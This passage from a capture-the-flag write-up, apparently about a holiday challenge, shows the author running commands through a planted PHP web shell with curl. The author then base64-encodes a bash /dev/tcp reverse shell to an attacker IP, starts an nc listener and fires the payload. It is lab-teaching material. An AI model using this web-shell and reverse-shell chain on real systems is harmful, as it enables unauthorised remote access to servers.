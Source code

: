     To gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
        37b5d57..5a6c7d4  main -> main
    grinchum-land:~/wordpress.flag.net.internal$ 
    ```

![Look at me](/img/elfhouse/lookatme.png)

!!! abstract ""
    ```sh
    grinchum-land:~/wordpress.flag.net.internal$ curl -s http://172.18.0.88/xmas.php?agr0=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

Confirmed I can use post vars, which is easier than GET vars:

!!! abstract ""
    ```sh
    grinchum-land:~/wordpress.flag.net.internal$ curl -sd "agr0=id" http://172.18.0.88/xmas.php
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

So do we have bash?

!!! abstract ""
    ```sh
    grinchum-land:~/wordpress.flag.net.internal$ curl -sd "agr0=which bash" http://172.18.0.88/xmas.php
    /bin/bash
    ```

So can we kick back a shell?

![Yup](/img/elfhouse/yep-yup.gif)

First, because there are special characters that could get in the way of things, I decided to base64 encode my shell:

!!! abstract "Local"
    ```sh
    echo -n "/bin/bash -i >& /dev/tcp/172.18.0.99/9090 0>&1" | base64 -w0
    L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xOC4wLjk5LzkwOTAgMD4mMQ==
    ```
Then started up a reverse shell listener:

!!! abstract "Reverse Shell"
    ```sh
    grinchum-land:~$ nc -lvnp 9090
    Listening on [0.0.0.0] (family 0, port 9090)

    ```

Then...Eagle one, Fox two!

!!! abstract ""
    ```sh
    curl -sd 'agr0=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xOC4wLjk5LzkwOTAgMD4mMQ== | base64 -d | bash' http://172.18.0.88/xmas.php
    ```
